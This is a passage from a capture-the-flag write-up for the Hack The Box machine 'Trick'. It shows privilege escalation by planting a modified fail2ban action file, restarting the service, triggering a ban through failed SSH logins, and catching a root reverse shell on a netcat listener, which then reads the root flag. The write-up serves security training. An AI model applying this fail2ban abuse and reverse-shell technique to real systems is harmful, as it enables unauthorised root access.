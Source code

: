 ```
michael@trick:/etc/fail2ban$ cp /dev/shm/iptables-multiport.local action.d/iptables-multiport.local
michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

Get banned and obtained the reverse shell:

```
┌──(kali㉿kali)-[~/…/HTB/B2R/Trick/loot]
└─$ ssh michael@trick.htb
michael@trick.htb's password:
Permission denied, please try again.
michael@trick.htb's password:
Permission denied, please try again.
michael@trick.htb's password:
michael@trick.htb: Permission denied (publickey,password).
...

┌──(kali㉿kali)-[~/…/HTB/B2R/Trick/loot]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.142] from (UNKNOWN) [10.10.11.166] 47804
id
uid=0(root) gid=0(root) groups=0(root)
/bin/bash
cat /root/root.txt
2631e8cadf4fb761541a8dc00810e01b
```

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%2012.png)

# Trophy
